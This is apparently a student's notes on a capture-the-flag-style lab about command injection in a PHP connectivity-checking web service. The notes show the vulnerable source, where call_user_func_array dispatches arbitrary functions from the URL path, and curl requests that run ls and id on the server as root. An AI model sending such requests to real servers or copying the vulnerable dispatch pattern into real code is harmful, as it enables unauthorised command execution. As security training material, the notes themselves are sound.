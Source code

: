 ﻿Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on`Click here to spawn the target system!` or the`Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in`http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.


```php
<?php
function ping($host_url_ip, $packets) {
 if (!in_array($packets, array(1, 2, 3, 4))) {
 die('Only 1-4 packets!');
 }
 $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
 $delimiter = "\n" . str_repeat('-', 50) . "\n";
 echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
 $prt = explode('/', $_SERVER['PATH_INFO']);
 call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_. The request should look similar to the following.`http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
smoothment@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

- The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as`http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
- A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell_exec() and the backtick operator._ If the _host_url_'s value was not escaped, the below could happen.
![Pasted image 20250219153637.png](../../../../IMAGES/Pasted%20image%2020250219153637.png)
- The command specified by the _cmd_ parameter is executed with the help of the _shell_exec()_ PHP function.
- If the request method is GET, an existing function can be called with the help of [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call_user_func_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of`http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows.`http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```


# Question
---

![Pasted image 20250219153716.png](../../../../IMAGES/Pasted%20image%2020250219153716.png)

If we test `id`, we get the following:

```
curl http://10.129.202.133:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```

